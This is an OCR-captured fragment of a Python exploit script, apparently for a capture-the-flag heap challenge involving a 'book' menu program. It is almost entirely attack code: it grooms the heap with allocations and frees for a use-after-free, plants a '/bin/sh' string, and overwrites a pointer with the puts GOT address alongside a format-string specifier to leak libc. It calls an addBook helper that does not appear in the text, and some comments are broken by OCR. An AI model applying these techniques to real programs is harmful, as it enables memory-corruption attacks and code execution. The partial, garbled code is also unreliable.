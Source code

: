 ```  

# function to add books with a null byte in it's name  
# for some reason, we need to send an additional byte  
def addBookSpc(size, price, payload):  
 target.sendline("1")  
 target.sendline(str(size))  
 target.sendline(payload)  
 target.sendline("7")  
 target.recvuntil(">")

# this is a function to delete books  
def deleteBook(index):  
   target.sendline('2')  
   target.sendline(str(index))  
   target.recvuntil('>')

# add a bunch of books to use late with the use after free  
addBook(50, 5, "0"*50)  
addBook(50, 5, "1"*50)  
addBook(50, 5, "2"*50)  
addBook(50, 5, "3"*50)  
addBook(50, 5, "4"*50)  
addBook(50, 5, "5"*50)  
addBook(50, 5, "6"*50)  
addBookSpc(50, 5, "/bin/sh\x00") # this book will contain the "/bin/sh" string
to pass a pointer to free  
addBook(50, 5, "8"*50)  
addBook(50, 5, "9"*50)  
addBook(50, 5, "x"*50)  
addBook(50, 5, "y"*50)  
addBook(50, 5, "9"*50)  
addBook(50, 5, "q"*50)

# delete the books, to setup the use after free  
deleteBook(0)  
deleteBook(1)  
deleteBook(2)  
deleteBook(3)  
deleteBook(4)  
deleteBook(5)  
deleteBook(6)  
deleteBook(7)  
deleteBook(8)  
deleteBook(9)  
deleteBook(10)  
deleteBook(11)  
deleteBook(12)  
deleteBook(13)  
deleteBook(14)

# This is the initial overflow of a pointer with the got address of `puts` to
get the libc infoleak  
addBookSpc(50, 5, "15935728"*1 + p64(0x602028) + "z"*8 + "%7$lx.")

# Display all of the books, to get the libc infoleak  
target.sendline('3')

# Filter out the infoleak  
print target.recvuntil('{')  
print target.recvuntil('{')  
print target.recvuntil('{')  
print target.recvuntil('{')

```